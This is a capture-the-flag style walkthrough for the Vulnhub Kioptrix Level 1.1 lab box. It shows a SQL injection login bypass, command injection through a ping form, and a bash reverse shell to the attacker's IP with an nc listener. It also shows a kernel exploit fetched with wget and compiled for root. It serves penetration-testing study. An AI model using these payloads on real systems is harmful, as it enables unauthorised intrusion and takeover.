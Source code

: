 # Kioptrix: Level 1.1 (#2)

Hey Fam! Recently i have started solving `Vulnhub` Boxes for my `OSCP` Preparation! 
In the process of solving boxes i thought it would be really nice if i document stuffs in a organized manner so that it would help me as well as others to go through when they are stuck at some point!

So, without wasting time let's get started!

## Download

This is an easy box, You can get it from [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

![Image](https://i.imgur.com/1RyhLoC.png)

Download the `.rar`
- `NOTE:` Some links are broken, But the highlighted one should work fine!

![Image](https://i.imgur.com/ZCQ4gwY.png)

Once Done with the download,Unzip it and Open the file in [VMware Workstation](https://www.vmware.com/in/products/workstation-pro/workstation-pro-evaluation.html) 

Your VMware Libraby should look like this,

![Image](https://i.imgur.com/qhJDfzP.png)

`NOTE:` Make sure both your attacking machine and Target Machine are running in `Bridged Network`

## IP Discovery

This is a simple `.vmx` file so we don't know what is it's IP! Just power On the victim Machine `(Kioptrix Box)` 

To find the Box's IP we can use a tool called [`netdiscover`](https://manpages.debian.org/unstable/netdiscover/netdiscover.8.en.html#:~:text=netdiscover%20is%20an%20active%2Fpassive,DHCP%20servers%20in%20wardriving%20scenarios.&text=Built%20on%20top%20of%20libnet,them%20by%20sending%20ARP%20requests.) (Pre-Installed in Kali and other distros)

Let's Fire  it up!

```
sudo netdiscover
```
![Image](https://i.imgur.com/tI0Pi85.png)

This gives a set of IP address but the one we are intrested in Is this `192.168.43.9`

## Scanning and Enumeration

Now as we got the IP address of our Victim machine, Let's scan for open ports and services running in it!

```
nmap -sC -sV -A 192.168.43.9 -oN scan.txt
```
The above command will give us a basic scan report , You can use `-p-` and more flags for detailed information
You can use `man` command to get a detail list of flags that you can use with nmap, Go for it! give it a try :)

![Image](https://i.imgur.com/FH0EEm7.png)

We can see we have some intresting ports opened in this box!

- Port `80` `http`
- Port `22` `ssh`
- Port `3306` `mysql`
- Port `443` `https`

## Gaining Foothold

Let's have a look on `http` page running at Port `80`

![Image](https://i.imgur.com/8q8YtJj.png)

We see a login page! After trying defaul creds, `admin:admin` which gave nothing :(
Then i tried `SQLi` using this `' OR 1=1 --` basic payload in both `user:pass`

Wohhhhhhhhh!! We logged In

![Image](https://i.imgur.com/uhuXMu4.png)

We can see, Here we can ping any IP address and hopefully we will get a response!
Let's try pinging to `8.8.8.8` 

![Image](https://i.imgur.com/WIhVuif.png)

We can ping it! So there is a chance that we can execute commands here! Let's give it a try

```
; whoami
```
![Image](https://i.imgur.com/Bb5LuN9.png)

The above command is terminating ping command and executing `whoami`

Now we are confirmed that we can execute commands remotely in this web page, Let's take advantage of this and try gaining a a `reverse shell` from it

```
 8.8.8.8; bash -i >& /dev/tcp/192.168.XX.XXX/1234 0>&1
```
![Image](https://i.imgur.com/RH41Kgv.png)

In the above command i am using a reverse shell bash command which will give me a shell in my attacking machine

Before hitting the submit button on the web page, run

```
nc -lvnp 1234
```
![Image](https://i.imgur.com/cTvgg9t.png)

This command is waiting for a connection from our target machine! Now let's hit the `submit` button

![Image](https://i.imgur.com/o8uH5Dv.png)

We got an initial shell and we can see we are `apache`

I have searched for many things here but didn't get anything to prev esc!

## Privilege Escalation

Now, Let's check it's release and kernel version

```
cat /etc/*-release
```
The above command will give us latest release of that perticular OS

![Image](https://i.imgur.com/9zueYKG.png)

```
uname -rms
```
The above command will give us kernel version 

![Image](https://i.imgur.com/3kdT0gK.png)

Let's check out for exploits with the above information we got!

![Image](https://i.imgur.com/HZbAAFh.png)

Let's go with the highlighted Exploit available in [Exploitdb](https://www.exploit-db.com/exploits/9545)

```
cp /usr/share/exploitdb/exploits/linux/local/9545.c . 
```
The above command copies the exploit code to my working Dir

```
mv 9545.c exploit.c
```
I chaged the name of `9545.c` to `exploit.c`

Now let's transfer `exploit.c` to our attacking machine

To achieve the above purpose i used a `python server` in my local machine

```
python3 -m http.server 8000
```
![Image](https://i.imgur.com/Lo5JVMm.png)

Now in the target machine, got to `/tmp` and run,

```
wget http://<IP>:8000/exploit.c
```
This above command will download `exploit.c` in target machine

![Image](https://i.imgur.com/cH1mkyS.png)

Time to compile the code

```
gcc -o exploit exploit.c
```
This command will create another file named `exploit`

![Image](https://i.imgur.com/36nvILE.png)

Make `exploit` Executable

```
chmod 755 exploit
```
Finally run the Executable and gain `root`

![Image](https://i.imgur.com/BL0lbRg.png)

Wooooohhhhhhhhhhhhh! Finally we rooted the Box :)


# Thank You

I hope you learnt something from this walkthrough! Looking forward to make more such walkthroughs! 
`Happy Hacking!`

By, `Deviner`
